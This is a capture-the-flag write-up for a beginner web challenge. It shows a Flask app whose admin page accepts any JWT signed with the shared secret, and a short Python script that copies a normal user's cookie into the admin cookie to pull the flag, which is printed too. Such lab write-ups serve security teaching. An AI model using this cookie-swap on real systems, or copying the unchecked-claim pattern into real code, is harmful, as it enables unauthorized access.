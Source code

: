# time-share

[library.m0unt41n.ch/challenges/time-share](https://library.m0unt41n.ch/challenges/time-share) ![](../../resources/web.svg) ![](../../resources/baby.svg) 

# TL;DR

We get a simple Flask app, with a login page and predefined `admin` and `user` users.
The flag will be displayed when accessing `/admin` endpoint - which needs admin
credentials though, and those are randomly generated at start.

# Code

```python
import os
from flask import Flask, request, render_template, redirect, url_for, make_response
import jwt
import datetime
from secrets import token_hex

app = Flask(__name__)

FLAG = os.environ.get("FLAG", "SCD{fake_flag_do_not_submit}")
SECRET_KEY = token_hex(16)
users = {
    "user": "spongebob",
    "admin": token_hex(16),
}

@app.route("/")
def index():
    return render_template("login.html")

@app.route("/login", methods=["POST"])
def login():
    username = request.form.get("username")
    password = request.form.get("password")
    if username in users and users[username] == password:
        token = jwt.encode(
            {
                "username": username,
                "exp": datetime.datetime.utcnow() + datetime.timedelta(minutes=30),
            },
            SECRET_KEY,
            algorithm="HS256",
        )
        response = make_response(redirect(url_for("dashboard")))
        response.set_cookie("auth_token", token)
        return response
    return "Invalid credentials", 401

@app.route("/dashboard")
def dashboard():
    token = request.cookies.get("auth_token")
    try:
        data = jwt.decode(token, SECRET_KEY, algorithms=["HS256"])
        return render_template("user.html", user=data["username"])
    except jwt.ExpiredSignatureError:
        return "Token has expired", 401
    except jwt.InvalidTokenError:
        return "Invalid token", 401

@app.route("/admin")
def admin():
    token = request.cookies.get("admin_token")
    try:
        data = jwt.decode(token, SECRET_KEY, algorithms=["HS256"])
        return render_template("admin.html", admin=data["username"], flag=FLAG)
    except jwt.ExpiredSignatureError:
        return "Token has expired", 401
    except jwt.InvalidTokenError:
        return "Invalid token", 401

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

# Analysis

The idea here is that `auth_token` JWT cookie is guarding regular logged in page
and the `admin_token` cookie guards the `/admin` endpoint.

The problem: `/admin` endpoint handler does not check that `admin_token` cookie
beyond whether it exists and can be decrypted. So, we can take the regular
user cookie copy / rename it in the client cookie jar and make it show as
`admin_token`. That will let us access `/admin` page and get the flag.

# Getting the flag

```python
import requests
import re

URL = "https://6ac2788c-f4cd-41f2-961a-f2c4b49e9e09.library.m0unt41n.ch:1337"
s = requests.Session()
post_data = {"username": "user", "password": "spongebob"}
s.post(URL+"/login", data=post_data)
s.cookies['admin_token'] = s.cookies['auth_token']
resp = s.get(URL+"/admin").text
print(re.compile('SCD{[^}]*}').findall(resp)[0])
```

---

## `SCD{sh4r3d_th3_jwt_s3cr3t}`


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)
